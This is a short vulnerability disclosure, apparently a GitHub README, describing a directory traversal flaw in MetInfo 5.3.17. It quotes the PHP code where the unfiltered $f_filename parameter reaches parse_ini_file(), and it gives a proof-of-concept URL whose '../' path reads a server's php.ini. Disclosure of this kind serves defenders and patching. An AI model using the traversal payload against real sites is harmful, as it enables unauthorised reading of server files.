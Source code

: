 # MetInfo 5.3.17 directory traversal vulnerability #


## 1.Technical Description: ##

locate in /admin/app/physical/physical.php 

	elseif($action=="fingerprintdo"){
    	if(file_exists($f_filename)){fingerprint('../../..',$f_filename);}
     	else{$physical_fingerprint="-1";}
     	require_once $depth.'../include/config.php';
       	header("location:advanced.php?lang={$lang}&anyid={$anyid}&cs=3&phy=1");exit;

Then we can control the variable $f_filename in the function fingerprint() 


locate in function fingerprint()

	function fingerprint($jkdir,$fileback){
    	global $filenamearray,$physical_fingerprint,$url_array;
    	$adminfile=$url_array[count($url_array)-2];
    	deltree(ROOTPATH.'/cache');
    	deltree(ROOTPATH."/$adminfile/update");
   		$physical_fingerprint="";
    	$fbdir=$fileback;
    	$fileback=parse_ini_file($fileback,true);

The $fileback didn't be filtered.So we can use $fileback to read other file.

## 2.PoC ##

we use

> http://127.0.0.1/admin/app/physical/physical.php?action=fingerprintdo&f_filename=../../../../../bin/php/php5.6.25/php.ini


![](https://github.com/phantom0301/vulns/blob/master/333.jpg)

